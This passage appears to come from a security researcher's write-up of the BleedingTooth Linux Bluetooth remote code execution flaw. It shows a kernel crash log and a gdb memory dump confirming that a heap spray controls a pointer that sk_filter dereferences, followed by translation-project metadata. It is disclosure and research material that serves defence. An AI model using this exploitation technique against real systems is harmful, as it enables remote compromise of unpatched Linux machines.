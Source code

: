 ```shell
[   58.881725] RIP: 0010:sk_filter_trim_cap+0x65/0x220
[   58.881734] Code: 00 00 4c 89 e6 48 89 df e8 b8 c5 af ff 41 89 c5 85 c0 75 62 48 8b 83 10 01 00 00 48 85 c0 74 56 49 8b 4c 24 18 49 89 5c 24 18 <4c> 8b 78 18 48 89 4d b0 41 f6 47 02 08 0f 85 41 01 00 00 0f 1f 44
[   58.881740] RSP: 0018:ffffbbccc10d3ca0 EFLAGS: 00010202
[   58.881748] RAX: 4343434343434343 RBX: ffff96da38f70300 RCX: 0000000000000000
[   58.881753] RDX: 0000000000000000 RSI: ffff96da62388300 RDI: ffff96da38f70300
[   58.881758] RBP: ffffbbccc10d3d00 R08: ffff96da38f67700 R09: ffff96da68003340
[   58.881763] R10: 00000000000301c0 R11: 8075f638da96ffff R12: ffff96da62388300
[   58.881767] R13: 0000000000000000 R14: 0000000000000001 R15: 0000000000000008
[   58.881774] FS:  0000000000000000(0000) GS:ffff96da69380000(0000) knlGS:0000000000000000
[   58.881780] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   58.881785] CR2: 000055f861e4bd20 CR3: 000000024c80a001 CR4: 00000000003606e0
[   58.881790] Call Trace:
[   58.881869]  ? __l2cap_chan_add+0x88/0x1c0 [bluetooth]
[   58.881938]  l2cap_data_rcv+0x351/0x510 [bluetooth]
[   58.881995]  l2cap_data_channel+0x29f/0x470 [bluetooth]
[   58.882054]  l2cap_recv_frame+0xe5/0x300 [bluetooth]
[   58.882067]  ? __switch_to_asm+0x40/0x70
[   58.882124]  l2cap_recv_acldata+0x2d2/0x2e0 [bluetooth]
[   58.882174]  hci_rx_work+0x186/0x360 [bluetooth]
[   58.882187]  process_one_work+0x1eb/0x3b0
[   58.882197]  worker_thread+0x4d/0x400
[   58.882207]  kthread+0x104/0x140
[   58.882215]  ? process_one_work+0x3b0/0x3b0
[   58.882223]  ? kthread_park+0x90/0x90
[   58.882233]  ret_from_fork+0x35/0x40
```
Inspecting the memory address at RDI of the victim’s machine, we can see:
```shell
$ sudo gdb /boot/vmlinuz /proc/kcore
(gdb) x/40gx 0xffff96da38f70300
0xffff96da38f70300:	0xffff96da601e7d00	0xffffffffc0d38760
0xffff96da38f70310:	0xffff96da60de2600	0xffff96da61c13400
0xffff96da38f70320:	0x0000000000000000	0x0000000000000001
0xffff96da38f70330:	0x0000000000000000	0x0000000000000000
0xffff96da38f70340:	0xffff96da38f70340	0xffff96da38f70340
0xffff96da38f70350:	0x0000000000000000	0x0000000000000000
0xffff96da38f70360:	0xffff96da38f70360	0xffff96da38f70360
0xffff96da38f70370:	0x0000000000000000	0x0000000000000000
0xffff96da38f70380:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f70390:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703a0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703b0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703c0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703d0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703e0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f703f0:	0xffffffffffffffff	0xffffffffffffffff
0xffff96da38f70400:	0x4141414141414141	0x4242424242424242
0xffff96da38f70410:	0x4343434343434343	0x4444444444444444
0xffff96da38f70420:	0x4545454545454545	0x4646464646464646
0xffff96da38f70430:	0x4747474747474747	0x4848484848484848
```
The value at 0xffff96da38f70410 shows that sk_filter() indeed tried to dereference the pointer at offset 0x10 of our spray, which, from the perspective of struct amp_mgr, is at offset 0x110. Bingo!


[#]: collector: (选题人 Licae)
[#]: translator: ( )
[#]: reviewer: ( )
[#]: publisher: ( )
[#]: subject: (BleedingTooth: Linux Bluetooth Zero-Click Remote Code Execution)
[#]: via: (https://google.github.io/security-research/pocs/linux/bleedingtooth/writeup.html#bypassing-badkarma)
[#]: author: (Andy Nguyen https://google.github.io/security-research)
[#]: url: ( )
[a]: 作者链接 https://google.github.io/security-research
[b]: 选题链接 URL
[1]: 图片链接地址
[2]: 文内链接地址